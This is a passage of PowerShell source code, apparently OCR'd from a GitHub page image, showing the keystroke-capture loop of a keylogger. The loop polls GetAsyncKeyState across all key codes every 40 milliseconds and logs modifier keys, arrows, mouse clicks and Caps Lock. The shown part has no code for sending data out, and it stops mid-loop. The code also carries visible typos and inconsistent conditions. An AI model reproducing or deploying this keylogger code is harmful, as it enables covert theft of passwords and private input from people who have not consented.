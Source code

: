                     Start-Sleep -Milliseconds 40

                        try {
                            [string] $LogOutput = ''

                            #loop through typeable characters to see which is pressed
                            for ($TypeableChar = 1; $TypeableChar -le 254; $TypeableChar++) {
                                $VirtualKey = $TypeableChar
                                $KeyResult = $ImportDll::GetAsyncKeyState($VirtualKey)

                                #if the key is pressed
                                if ($KeyResult -eq -32767) {
            
                                    #check for keys not mapped by virtual keyboard
                                    $LeftShift = $ImportDll::GetAsyncKeyState(160)
                                    $RightShift = $ImportDll::GetAsyncKeyState(161)                
                                    $LeftCtrl = $ImportDll::GetAsyncKeyState(162)
                                    $RightCtrl = $ImportDll::GetAsyncKeyState(163)
                                    $LeftAlt = $ImportDll::GetAsyncKeyState(164)
                                    $RightAlt = $ImportDll::GetAsyncKeyState(165)
                                    $TabKey = $ImportDll::GetAsyncKeyState(9)
                                    $SpaceBar = $ImportDll::GetAsyncKeyState(32)
                                    $DeleteKey = $ImportDll::GetAsyncKeyState(127)
                                    $EnterKey = $ImportDll::GetAsyncKeyState(13)
                                    $BackSpaceKey = $ImportDll::GetAsyncKeyState(8)
                                    $LeftArrow = $ImportDll::GetAsyncKeyState(37)
                                    $RightArrow = $ImportDll::GetAsyncKeyState(39)
                                    $UpArrow = $ImportDll::GetAsyncKeyState(38)
                                    $DownArrow = $ImportDll::GetAsyncKeyState(34)
                                    $LeftMouse = $ImportDll::GetAsyncKeyState(1)
                                    $RightMouse = $ImportDll::GetAsyncKeyState(2)
                
                                    #if any of the keys are pressed then it will return either -32767 or -32768
                                    if ((($LeftShift -eq -32767) -or ($RightShift -eq -32767)) -or (($LeftShift -eq -32768) -or ($RightShfit -eq -32768))) {$LogOutput += '[Shift] '}
                                    if ((($LeftCtrl -eq -32767) -or ($LeftCtrl -eq -32767)) -or (($RightCtrl -eq -32768) -or ($RightCtrl -eq -32768))) {$LogOutput += '[Ctrl] '}
                                    if ((($LeftAlt -eq -32767) -or ($LeftAlt -eq -32767)) -or (($RightAlt -eq -32767) -or ($RightAlt -eq -32767))) {$LogOutput += '[Alt] '}
                                    if (($TabKey -eq -32767) -or ($TabKey -eq -32768)) {$LogOutput += '[Tab] '}
                                    if (($SpaceBar -eq -32767) -or ($SpaceBar -eq -32768)) {$LogOutput += '[SpaceBar] '}
                                    if (($DeleteKey -eq -32767) -or ($DeleteKey -eq -32768)) {$LogOutput += '[Delete] '}
                                    if (($EnterKey -eq -32767) -or ($EnterKey -eq -32768)) {$LogOutput += '[Enter] '}
                                    if (($BackSpaceKey -eq -32767) -or ($BackSpaceKey -eq -32768)) {$LogOutput += '[Backspace] '}
                                    if (($LeftArrow -eq -32767) -or ($LeftArrow -eq -32768)) {$LogOutput += '[Left Arrow] '}
                                    if (($RightArrow -eq -32767) -or ($RightArrow -eq -32768)) {$LogOutput += '[Right Arrow] '}
                                    if (($UpArrow -eq -32767) -or ($UpArrow -eq -32768)) {$LogOutput += '[Up Arrow] '}
                                    if (($DownArrow -eq -32767) -or ($DownArrow -eq -32768)) {$LogOutput += '[Down Arrow] '}
                                    if (($LeftMouse -eq -32767) -or ($LeftMouse -eq -32768)) {$LogOutput += '[Left Mouse] '}
                                    if (($RightMouse -eq -32767) -or ($RightMouse -eq -32768)) {$LogOutput += '[Right Mouse] '}

                                    #check for capslock
                                    [bool] $CapsLock = [console]::CapsLock 
                                    if ($CapsLock -eq $True) {$LogOutput += '[Caps Lock] '}
                